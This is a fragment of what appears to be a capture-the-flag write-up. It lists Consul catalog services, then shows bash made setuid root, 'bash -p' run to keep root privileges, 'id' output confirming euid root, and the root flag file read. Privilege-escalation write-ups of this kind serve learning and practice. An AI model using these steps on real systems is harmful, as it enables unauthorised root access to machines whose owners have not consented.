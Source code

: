 ```json
```
yep
```bash
consul catalog services
blnkn
consul
meow
svc111
```
and now bash is suid, so we can run it with preserve and it won't drop root permissions. 
```bash
ls -la $(which bash)
-rwsr-sr-x 1 root root 1183448 Apr 18 09:14 /usr/bin/bash
bash -p
id
uid=1000(developer) gid=1000(developer) euid=0(root) egid=0(root) groups=0(root),1000(developer)
cd /root/
wc -c root.txt
33 root.txt
```
